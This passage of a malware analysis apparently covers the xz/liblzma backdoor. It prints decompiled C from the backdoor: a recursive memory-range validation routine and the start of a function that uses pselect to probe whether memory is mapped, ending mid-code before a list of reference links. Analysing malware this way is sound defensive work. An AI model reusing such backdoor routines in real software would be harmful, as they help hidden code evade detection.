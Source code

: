```c
        v14 = v12 & 0xFFFFFFFFFFFFF000LL;
        if ( (v13 & 0xFFF) != 0 )
          v13 = (v13 & 0xFFFFFFFFFFFFF000LL) + 0x1000;
        if ( addr >= v14 && v13 >= end )
          return Success;
        if ( v13 < end || addr >= v14 )
        {
          if ( addr >= v13 || addr < v14 )
          {
            if ( v13 < end && addr < v14 )
            {
              depth0 = depth;
              result = validate_memory_range_with_depth(elf_info, addr, v14 - addr, p_flags, depth);
              if ( result )
                return validate_memory_range_with_depth(elf_info, (v13 + 1), &end[-v13 - 1], p_flags, depth0) != Error;
              return result;
            }
          }
          else if ( v13 < end )
          {
            addr = (v13 + 1);
            size = &end[-v13 - 1];
            goto _start;
          }
        }
        else if ( v14 < end )
        {
          size = v14 - addr - 1;
          goto _start;
        }
      }
    }
  }
  return Error;
}
```

The backdoor also uses `pselect` to check if a given range is mapped:

```c
Status __fastcall is_mapped_range(uint8_t *addr, size_t size, all_t *api_ctx)
{
  const sigset_t *sigmask; // rbx
  standard_funcs_t *standard; // rax
  int (__fastcall *pselect)(int, fd_set *, fd_set *, fd_set *, const struct timespec *, const sigset_t *); // rax
  void **errno; // rax
  timespec timeout; // [rsp+0h] [rbp-38h] BYREF

  if ( !size )
    return 0;
  if ( addr <= 0xFFFFFF )
    return Error;
  sigmask = (addr & 0xFFFFFFFFFFFFF000LL);
  if ( (addr & 0xFFFFFFFFFFFFF000LL) < &addr[size] )
  {
    timeout.tv_sec = 0LL;
    if ( api_ctx )
    {
      while ( 1 )
      {
        standard = api_ctx->standard;
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48